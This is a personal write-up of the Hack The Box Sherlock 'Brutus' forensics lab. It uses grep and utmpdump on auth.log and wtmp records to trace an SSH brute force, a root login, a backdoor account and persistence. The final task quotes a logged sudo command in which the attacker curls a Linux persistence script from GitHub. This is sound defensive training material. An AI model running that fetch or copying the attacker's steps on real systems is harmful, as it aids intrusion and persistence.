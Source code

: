 ```yaml
---
title: Brutus
date modified: Tuesday, May 14th 2024, 7:58:50 pm
---
```


I will note that I like the way that this guy has done this task, by creating a timeline of what the attack did: https://0xdf.gitlab.io/2024/04/09/htb-sherlock-brutus.html# 
##### Sherlock Scenario
*In this very easy Sherlock, you will familiarise yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.*

### Task 1:
*Analysing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?*

Looking at the **auth.log** file and grepping for rhosts, we can see that a certain IP address (65.2.161.68), has failed authentication many times to the confluence server. This should be the attacker controlled IP.

```Bash
cat auth.log | grep rhost
```

### Task 2:
*The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?*

We are able to grep for **Accepted Password** which shows that the first account that the attacker was able to log-in to was **root**

```Bash
cat auth.log | grep "Accepted password"

Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
```

## Task 3:

*Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?*

To do this we need to look at the wtmp file. We can view this file in various ways:
1. utmp dump
	1. This gives us lots of information about the users that have been using the system. 
	2. We want to filter for **[7]** as that is the code for a user logging in. [6] is used for when a log in session is terminated.
		1. https://linux.die.net/man/5/wtmp
	3. If we look at this input, we can see a login from the attacker controlled IP (65.2.161.68)
```Bash
utmpdump wtmp | grep -w "\[7\]" # This enables us to search for every login.
...SNIP...
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]

# Other useful commands for parsing a wtmp file.
who wtmp
last wtmp
```

We can convert this timestamp into: **2024-03-06 06:32:45**
### Task 4:
*SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?*

If we look at around the time in which the attacker logged in, we can see that it is session 37. We can search for this quickly, since SSH sessions will be given a session number as soon as a user logs in.
```Bash
cat auth.log | grep "06:32:[0-9][0-9]" # Gives us all the commands that happened within the minute of when the attacker logged in.

Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

### Task 5:
*The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?*

We can see the name **cyberjunkie** on both the auth.log and wtmp file
```BASH
utmpdump wmtp

...SNIP...
[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
```

### Task 6:
*What is the MITRE ATT&CK sub-technique ID used for persistence?*

By looking at the [MITRE documentation](https://attack.mitre.org/techniques/T1136/001/), we can figure out that the ID is T1136.001. Where:

- T1136 - Account Creation
	- Our attacker has created an account so that they can maintain access to the compromised system
- 001 - Local Account
	- The account is local on the system

### Task 7:

*How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)*

Using the knowledge that we know that the attackers session was session 37, we can grep for it and calculate how many seconds they were connected for.
```Bash
cat auth.log | grep "session 37"

Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

which is 279 seconds, as the auth.log and wtmp log in have a 1 second difference.

### Task 8

*The attacker logged into their backdoor account and utilised their higher privileges to download a script. What is the full command executed using sudo?*

We can see a github repo being curled int our system
```Bash
cat auth.log | grep "github"

Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

```